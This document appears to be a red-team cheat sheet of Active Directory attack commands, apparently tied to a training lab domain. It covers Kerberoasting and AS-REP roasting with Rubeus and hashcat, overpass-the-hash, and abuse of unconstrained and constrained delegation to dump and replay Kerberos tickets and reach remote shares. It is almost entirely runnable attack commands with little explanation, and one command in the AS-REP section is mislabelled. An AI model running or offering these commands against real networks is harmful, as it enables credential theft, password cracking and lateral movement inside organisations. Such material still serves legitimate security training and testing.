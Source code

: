### Kerberoasting
```
powershell Get-DomainUser -SPN -Properties SamAccountName, ServicePrincipalName
Rubeus kerberoast /outfile:hashes.asreproast
hashcat64.exe -a 0 -m 13100 C:\Users\NyaMeeEain\hashes.asreproast C:\Users\NyaMeeEain\Data\rockyou.txt -o winpass2.txt --force  --potfile-disable
```

### ASREPRoasting
```
powershell Get-DomainUser -PreauthNotRequired -Properties SamAccountName
Rubeus kerberoast format:hashcat /outfile:hashes.asreproast
hashcat64.exe -a 0 -m 18200 C:\Users\NyaMeeEain\hashes.asreproast C:\Users\NyaMeeEain\Data\rockyou.txt --force  --potfile-disable
```
### Overpass-the-Hash
```
Rubeus triage
Rubeus asktgt /user:n.John /rc4:2e8a408a8aec852ef2e458b938b8c071
Rubeus ptt /ticket:doIFXDCCBVi[…snip…]bDWN5YmVyYm90aWMuaW8=
```
### Unconstrained Delegation
the server or the service account that is granted this right is able to impersonate a user to authenticate to any services on any host,you are granting that account permission to delegate to any service
```
powershell Get-DomainComputer -Unconstrained -Properties DnsHostName
powershell Get-DomainGPOLocalGroup
powershell Get-DomainGroupMember -identity 'Workstation Admins' -recurse | select -exp membername 
powershell Get-DomainGroupMember -identity 'Helpdesk\Admins' -recurse | select -exp membername  
powershell Get-DomainOU -GPLink '{66465373-16CB-4F96-BD3A-12AE7D2C2371}' | % {Get-DomainComputer -SearchBase $_.distinguishedname -Properties dnshostname}
powershell Find-DomainUserLocation -userIdentity 'Workstation\Admins'  
execute-assembly C:\Users\Public\Rubeus.exe triage
execute-assembly C:\Users\Public\Rubeus.exe dump /service:krbtgt
Rubeus dump /luid:0x1b37e  
Rubeus createnetonly /program:C:\Windows\System32\cmd.exe
Rubeus ptt /luid:0x21d8e17 /ticket:[...snip...]

```
```
execute-assembly C:\Users\Public\Rubeus.exe triage
execute-assembly C:\Users\Public\Rubeus.exe dump /luid:0x1f5d5  
execute-assembly C:\Users\Public\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe
execute-assembly C:\Users\Public\Rubeus.exe ptt /luid:0x686cf9 /ticket:
```

### Constrained Delegation
constrained delegation takes it a step further by allowing you to configure which services an account can be delegated to.it limits delegation to a specified list, rather than allowing delegation to any service as in unconstrained delegation.
```
powershell Get-DomainComputer -TrustedToAuth -Properties DnsHostName, MSDS-AllowedToDelegateTo
powershell Get-DomainComputer web-2.cyberbotic.io | select -exp msds-AllowedToDelegateTo 
powershell Get-DomainComputer -TrustedToAuth | select -exp dnshostname 
Rubeus dump /service:krbtgt
Rubeus s4u /impersonateuser:n.glover /msdsspn:cifs/fs-1.cyberbotic.io /ticket:[...snip...]
Rubeus createnetonly /program:C:\Windows\System32\cmd.exe
Rubeus ptt /luid:0x239b995 /ticket:[...snip...]
ImpersonateProcess 3420
ls \\fs-1.cyberbotic.io\c$
```


